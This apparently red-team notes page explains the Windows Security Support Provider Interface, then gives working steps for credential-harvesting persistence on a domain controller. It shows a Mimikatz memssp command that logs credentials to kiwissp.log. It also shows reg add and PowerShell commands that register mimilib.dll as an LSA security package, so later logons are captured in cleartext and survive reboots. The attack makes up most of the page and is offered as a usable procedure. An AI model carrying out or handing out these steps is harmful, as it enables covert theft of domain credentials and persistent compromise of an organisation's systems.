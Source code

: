 # Custom SSP

## Explanation

A Security Service Provider (SSP) is implemented via the Security Support Provider Interface (SSPI) which is part of the Windows Client Authentication Architecture.

The SSPI will dictate what protocols systems should use to authenticate between each other when communicating. The default protocol is Kerberos, however when not possible the following may also be utilized:

| SSP Protocol      | File Location                          |
|-------------------|----------------------------------------|
| Negotiate SSP     | `C:\Windows\System32\lsasrv.dll`       |
| Kerberos SSP      | `C:\Windows\System32\kerberos.dll`     |
| NTLM SSP          | `C:\Windows\System32\msv1_0.dll`       |
| Schannel SSP      | `C:\Windows\System32\Schannel.dll`     |
| Digest SSP        | `C:\Windows\System32\Wdigest.dll`      |
| CredSSP           | `C:\Windows\System32\credssp.dll`      |



### 1) Mimikatz (IN MEMORY. DOES NOT PERSIST AFTER REBOOT!)

    mimikatz "privilege::debug" "misc::memssp" "exit"

    C:\Windows\System32\kiwissp.log

### 2) Mimilib (PERSISTENT)

It is possible to inject a custom SSP into a target Domain Controller which can be used to intercept credentials and store them for later retrieval in plain text. Mimikatz comes with the ability to perform this interception with the mimilib.dll provided.

Copying the mimilib.dll file from Mimikatz into the SYSTEM32 folder and then adding the mimilib.dll file as a security package with the below command.

##### Create Key

    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f

##### Confirm changes

    reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

After completing and confirming changes, when a user next authenticates against the Domain Controller the credentials will be captured in cleartext in a file called kiwissp.txt inside SYSTEM32.

As these changes are made to the registry and a permanent file is dropping into SYSTEM32 this attack vector will persist after reboots.

BONUS

    $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
    $packages += "mimilib"
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
